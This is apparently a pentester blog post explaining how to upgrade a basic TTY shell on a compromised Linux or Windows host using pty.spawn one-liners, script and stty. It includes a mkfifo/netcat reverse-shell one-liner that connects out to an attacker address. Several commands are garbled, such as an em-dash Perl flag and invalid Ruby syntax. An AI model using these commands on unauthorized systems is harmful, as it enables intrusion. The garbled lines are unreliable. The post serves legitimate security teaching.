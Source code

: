 ```yaml
---
title:  Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
description: Upgrading TTY Shell
---
```


## Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify installed language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:
```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```
### Examples

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
echo os.system('/bin/bash')
```

```bash
/bin/sh -i
```

```bash
perl —e 'exec "/bin/sh";'
```

```bash
ruby: exec "/bin/sh"
```

# if python isn't installed, then use:
```shell
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.xxx.xxx 9001 >/tmp/f
```
After you have choosen one of these, to get an autocomplete shell, use:

```bash
ctrl-z 

stty raw -echo; fg

# send to background

# On attacker's machine

stty raw -echo 

stty -a 

get local number of rows & columns
fg 
# Press Enter Enter

Now you should have an autocomplete shell
```
